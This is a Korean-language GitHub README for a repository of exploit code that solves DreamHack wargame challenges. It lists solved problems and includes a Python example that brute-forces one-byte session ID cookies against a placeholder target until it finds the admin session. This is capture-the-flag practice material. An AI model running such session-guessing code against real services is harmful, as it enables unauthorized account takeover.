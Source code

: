 # DreamHack Code :computer:
DreamHack 문제들을 해결한 exploit 코드들이 있습니다.
(Python 위주)


## 문제 목록 :unlock:
- [X] Mango
- [X] Counting_query
- [X] proxy-1
- [X] session
- [X] stream
- [X] web-ssrf
- [X] rev-basic-4 
- [X] rev-basic-6
- [X] rev-basic-5
- [X] rev-basic-8


## 예시 코드 :clipboard:
```python
import requests

target_url = 'localhost_input'  # 타겟 서버 주소를 여기에 입력

def session_fixation_attack():
    for i in range(256):
        session_id = bytes([i]).hex()

        cookies = {'sessionid': session_id}

        response = requests.get(target_url, cookies=cookies)

        if 'Hello' in response.text:
            print(f'Success! Found admin session ID: {session_id}')
            break
        else:
            print(f'Tried session ID: {session_id}, but not admin.')

session_fixation_attack()
```